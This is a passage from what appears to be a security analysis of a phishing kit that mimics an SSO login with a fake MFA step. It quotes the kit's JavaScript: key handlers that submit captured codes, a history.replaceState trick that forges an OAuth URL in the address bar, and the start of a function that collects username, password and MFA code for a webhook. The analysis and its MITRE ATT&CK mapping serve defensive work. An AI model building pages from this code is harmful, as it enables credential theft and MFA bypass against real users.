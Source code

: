 This section directs the victim to a fake MFA page if the user enters their password and presses Enter. This callback references the Authenticator Page function mentioned earlier. It is here that our threat actor successfully captures the victim’s password.

```
// Add event listener for Enter key in auth code field
document.getElementById('auth-code').addEventListener('keypress', function(event) {
if (event.key === 'Enter') {
event.preventDefault();
submitAuthData();
}
});
```

Similar to the password field, this section of the page captures the TOTP token. The goal is to bypass MFA, and when the threat actor has this token, they have access to the victim's account.

```
// Focus on username field when page loads and update URL
window.addEventListener('load', function() {
document.getElementById('username').focus();

// Update the URL to make it look like a legitimate SSO URL
const samlUrl = '/oauth2/v1/authorize?client_id=SNIP';

// Use history.replaceState to change the URL without causing a page reload
history.replaceState(null, document.title, samlUrl);
});
```

This part of the function reinforces deception with additional tricks to appear legitimate. The web page will load the username input field on the next page of the authentication process through SSO. But another sneaky tactic this threat actor uses is rewriting the URL with a forged OAuth SAML URL. It never triggers a network request — just alters what the victim sees in the address bar.

| MITRE ID      | Technique                                         | Description                                                                                                       |
| ------------- | ------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------- |
| **T1566.002** | _Phishing: Spearphishing Link_                    | The code is part of a staged phishing page designed to mimic real identity providers.                             |
| **T1111**     | _Multi-Factor Authentication Interception_        | The fake MFA code input, coupled with `submitAuthData()`, supports full TOTP harvesting.                          |
| **T1056.001** | _Input Capture: Form Grabbing_                    | Simulated login + MFA code forms collect sensitive information entered by the user.                               |
| **T1204.001** | _User Execution: Malicious Link_                  | Victim must click a link and interact with fake input elements.                                                   |
| **T1556.004** | _Adversary-in-the-Middle (AiTM)_ _(Related)_      | While not a proxy attack, the visual deception achieves a similar outcome: session impersonation.                 |
| **T1036.005** | _Masquerading: Match Legitimate Name or Location_ | The history URL spoof creates a sense of legitimacy by copying real OAuth parameters.                             |
| **T1565.003** | _Data Manipulation: Transmitted Data_             | The attacker manipulates the URL in the victim’s browser to appear authentic without triggering network activity. |

## Submit Authentication Data Function

```
// Function to submit authentication data to the webhook handler
        function submitAuthData() {
            const username = document.getElementById('username').value || 'N/A';
            const password = document.getElementById('password').value || 'N/A';
            const mfaCode = document.getElementById('auth-code').value || 'N/A';

            // Prepare data for sending
            const data = {
                username: username,
                password: password,
                mfa_code: mfaCode
            };

            // Disable the verify button to prevent multiple submissions
```